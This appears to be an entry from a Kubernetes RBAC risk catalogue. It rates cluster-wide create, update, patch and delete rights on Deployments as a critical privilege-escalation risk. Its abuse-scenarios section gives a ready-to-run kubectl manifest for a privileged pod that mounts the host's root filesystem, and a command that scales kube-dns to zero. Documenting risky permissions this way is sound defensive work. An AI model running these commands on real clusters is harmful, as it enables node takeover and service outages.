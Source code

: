 ```yaml
---
id: 1033
title: "Manage Deployments cluster-wide (potential for privileged pod execution)"
description: "Allows creating, updating, or deleting Deployments across all namespaces. Deployments manage pod replicas, and this permission can be used to deploy pods with privileged settings, leading to code execution, privilege escalation, persistence, and tampering with cluster workloads."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                               |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1033                                                                                                                |
| Name                    | Manage Deployments cluster-wide (potential for privileged pod execution)                                            |
| Risk Category           | Elevation of Privilege                                                                                              |
| Risk Level              | {{< risk Critical >}}                                                                                               |
| Role Type               | ClusterRole                                                                                                         |
| API Groups              | apps                                                                                                                |
| Resources               | deployments                                                                                                         |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                            |
| Tags                    | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting Deployments across all namespaces. Deployments manage pod replicas, and this permission can be used to deploy pods with privileged settings, leading to code execution, privilege escalation, persistence, and tampering with cluster workloads.

## Abuse Scenarios

1. Create a new Deployment with a privileged pod template.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: privileged-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: privileged-app
  template:
    metadata:
      labels:
        app: privileged-app
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Scale a critical deployment to zero replicas, causing denial of service.

```bash
kubectl scale deployment <deployment-name> -n <namespace> --replicas=0
# Example: kubectl scale deployment kube-dns -n kube-system --replicas=0

```
